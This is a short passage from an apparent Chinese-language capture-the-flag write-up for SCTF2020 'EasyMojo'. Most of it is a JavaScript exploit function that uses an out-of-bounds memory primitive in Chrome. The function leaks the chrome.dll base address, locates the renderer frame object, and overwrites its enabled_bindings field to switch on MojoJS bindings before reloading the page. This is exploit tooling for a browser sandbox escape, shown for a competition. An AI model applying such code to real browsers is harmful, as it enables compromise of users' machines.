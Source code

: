 ![image-20200707174653462](SCTF2020-EasyMojo.assets/image-20200707174653462.png)

将其修改为2，然后reload页面，enable mojo完成。

```js
function enable_mojo(oob){
    print("[ enable mojo ]")

    const kWindowWrapperTypeInfoOffset  = 0x7c90fb8n;
    const kGFrameMapOffset              = 0x7d47ed8n;
    const kEnabledBindingsOffset        = 0x5c0n ;

    let window_ptr = BigInt(oob.objToPtr(window));
    print("  [*] window_ptr                     : "+hex(window_ptr));

    let v8_window_wrapper_type_info_ptr = oob.getUint64(window_ptr+0x10n);
    let chrome_dll_address = v8_window_wrapper_type_info_ptr - kWindowWrapperTypeInfoOffset;
    print("  [*] chrome.dll address             : "+hex(chrome_dll_address));
    print("  [*] v8 window warpper type info ptr: "+hex(v8_window_wrapper_type_info_ptr));


    let g_frame_map_ptr = chrome_dll_address + kGFrameMapOffset;
    print("  [*] g_frame_map_ptr                : "+hex(g_frame_map_ptr))

    if (oob.getUint64(g_frame_map_ptr) != g_frame_map_ptr + 0x8n) {
        print('  [!] error finding g_frame_map');
        return;
    }

    let begin_ptr = oob.getUint64(g_frame_map_ptr+8n);
    print('  [*] begin_ptr                      : ' + begin_ptr.toString(16));

    // content::RenderFrameImpl
    render_frame_ptr = oob.getUint64(begin_ptr + 0x28n);
    print('  [*] render_frame_ptr               : ' + render_frame_ptr.toString(16));

    let enabled_bindings = oob.getUint32(render_frame_ptr + kEnabledBindingsOffset);
    print('  [*] enabled_bindings:  0b' + enabled_bindings.toString(2));
    oob.setUint32(render_frame_ptr + kEnabledBindingsOffset, 2);
    enabled_bindings = oob.getUint32(render_frame_ptr + kEnabledBindingsOffset);
    print('  [*] new enabled_bindings:  0b' + enabled_bindings.toString(2));

    print('  [*] reloading');
    window.location.reload();
}
```
